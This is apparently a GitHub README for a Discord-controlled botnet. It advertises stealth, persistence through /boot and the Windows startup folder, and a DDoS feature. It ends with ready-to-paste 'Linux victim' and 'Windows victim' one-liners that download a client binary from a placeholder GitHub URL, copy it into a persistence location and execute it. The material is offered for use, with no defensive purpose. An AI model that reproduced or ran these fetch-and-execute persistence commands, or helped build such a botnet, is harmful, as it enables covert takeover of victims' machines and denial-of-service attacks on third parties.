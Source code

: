 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

ubnt: @udbnt

# Status
Fixing !info command

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe && copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && WClient.exe
